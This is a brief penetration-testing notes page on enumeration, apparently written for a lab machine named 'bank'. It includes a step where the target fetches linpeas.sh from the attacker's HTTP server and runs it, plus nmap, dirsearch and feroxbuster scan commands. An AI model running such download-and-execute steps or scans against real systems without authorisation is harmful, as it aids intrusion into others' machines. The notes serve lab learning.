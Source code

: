 # Enumerate

Enumeration is the process of gathering information about a target. This can be done in a variety of ways, such as scanning for open ports, identifying services running on those ports, and identifying vulnerabilities in those services. The goal of enumeration is to gather as much information as possible about the target, so that you can identify potential attack vectors and plan your attack accordingly.

## Inside the machine

A easy workaround is to use a script like `linpeas.sh` to enumerate the system. This script will gather information about the system and identify potential vulnerabilities that can be exploited.

In our machine we do the following:

```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8000
```

In the target machine we do the following:

```bash
wget http://<your-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## Outside the machine

If you are outside the machine, you can use tools like `nmap` to scan for open ports and identify services running on those ports. Once you have identified the services running on the target, you can use tools like `nmap` and `searchsploit` to identify potential vulnerabilities in those services.

```bash
nmap -p- -T4 --min-rate 5000 -sV -A -o bank <IP>
nmap --script vuln -o vuln <IP>
dirsearch -u http://bank.htb -e php -m GET directory_list_lowercase_2.3_medium.txt
feroxbuster -u http://bank.htb -o ferox -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 401
whatweb <IP>
```